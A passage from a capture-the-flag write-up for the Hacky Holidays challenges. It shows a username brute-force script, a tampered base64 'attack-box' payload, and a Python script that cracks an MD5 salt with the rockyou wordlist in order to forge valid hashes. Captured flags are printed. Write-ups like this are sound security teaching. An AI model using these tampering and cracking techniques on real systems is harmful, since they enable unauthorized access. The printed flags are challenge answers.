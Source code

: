 ```
			break
else:
	print("Here's the final username: "+username)
```
Run the script and get the valid username : grinchadmin

{F1131246}

For the password, we can either use above script by making a little changes

{F1131246}

Now, simply login into attack-box and find the flag.

>https://hackyholidays.h1ctf.com/attack-box/login

{F1131254}

>>Flag 11 -: flag{07a03135-9778-4dee-a83c-7ec330728e72}

**Day 12 - Grinch Network Attack Server**

As it's saying ,

"We've identified Santa's key servers and loaded them into the attack server ready for you to take down"

We're supposed to "take down the Grinch networks" in order to get the flag and we need to find a way.

Once we try to attack the server, the browser sent the request with uniqe hash for each ip.
```
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==

{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
```
If we try to change the target ip to something else like 127.0.0.1,
```
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQo=

Got the response

"Invalid Protection Hash"
```
So we need to find  out how server identifies the valid hash along with target ip.

I stucked there for hours and falied multiple attempts but finally I fingured it out that there's a salt which is being used to generate valid hash for target ip address.Here's the  code how we can find valid salt.
```
#!/usr/bin/python3
import hashlib 
fuzz = [line.rstrip('\n') for line in open('rockyou.txt')]
for i in fuzz:
	#{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
	  target =  i + "203.0.113.33"
	  target_hash = "5f2940d65ca4140cc18d0878bc398955"
	  generate_hash = hashlib.md5(target.encode())
	  md5 = str(generate_hash.hexdigest())
	  if target_hash == md5:
	  	print("Here's valid salt: "+i)
	  	break
```
It will take a while and once we get the salt -: mrgrinch463, we can generate valid hash for every ip address.

